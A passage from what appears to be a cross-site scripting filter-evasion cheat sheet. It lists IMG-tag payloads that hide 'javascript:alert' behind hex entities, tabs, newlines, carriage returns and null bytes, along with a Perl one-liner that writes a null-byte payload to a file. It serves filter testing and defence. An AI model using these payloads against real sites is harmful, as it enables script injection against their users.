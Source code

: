 This is also a viable XSS attack against the above string $tmp\_string=~ s/.\*\\&#(\\d+);.\*/$1/; which assumes that there is a numeric character following the pound symbol - which is not true with hex HTML characters).

`<IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>`

Embedded Tab
------------

Used to break up the cross site scripting attack:

`<IMG SRC="jav ascript:alert('XSS');">`

Embedded Encoded Tab
--------------------

Use this one to break up XSS :

`<IMG SRC="jav&#x09;ascript:alert('XSS');">`

Embedded Newline to Break-up XSS
--------------------------------

Some websites claim that any of the chars 09-13 (decimal) will work for this attack. That is incorrect. Only 09 (horizontal tab), 10 (newline) and 13 (carriage return) work. See the ascii chart for more details. The following four XSS examples illustrate this vector:

`<IMG SRC="jav&#x0A;ascript:alert('XSS');">`

Embedded Carriage Return to Break-up XSS
----------------------------------------

(Note: with the above I am making these strings longer than they have to be because the zeros could be omitted. Often I’ve seen filters that assume the hex and dec encoding has to be two or three characters. The real rule is 1-7 characters.):

`<IMG SRC="jav&#x0D;ascript:alert('XSS');">`

Null breaks up JavaScript Directive
-----------------------------------

Null chars also work as XSS vectors but not like above, you need to inject them directly using something like Burp Proxy or use `%00` in the URL string or if you want to write your own injection tool you can either use vim (`^V^@` will produce a null) or the following program to generate it into a text file. Okay, I lied again, older versions of Opera (circa 7.11 on Windows) were vulnerable to one additional char 173 (the soft hypen control char). But the null char `%00` is much more useful and helped me bypass certain real world filters with a variation on this example:

`perl -e 'print "<IMG SRC=java\0script:alert(\"XSS\")>";' > out`

Spaces and Meta Chars Before the JavaScript in Images for XSS
-------------------------------------------------------------

This is useful if the pattern match doesn’t take into account spaces in the word `javascript:` \-which is correct since that won’t render- and makes the false assumption that you can’t have a space between the quote and the `javascript:` keyword. The actual reality is you can have any char from 1-32 in decimal:
